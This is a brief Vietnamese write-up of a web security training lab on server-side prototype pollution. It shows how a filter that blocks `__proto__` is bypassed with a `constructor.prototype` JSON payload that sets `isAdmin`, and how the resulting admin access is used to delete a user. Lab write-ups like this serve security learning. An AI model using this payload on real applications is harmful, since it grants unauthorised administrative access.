


# Lab: Bypassing flawed input filters for server-side prototype pollution

Thử detect với thuộc tinh `__proto__` trong JSON, không thấy reflect:


Khi sử dụng `constructor` thì thấy reflect thành công:


Sửa lại JSON để có thể trigger lỗi:
```
"constructor":{"prototype":{"isAdmin":true}}
```

reload trang web, truy cập `Admin Panel` để xóa user carlos.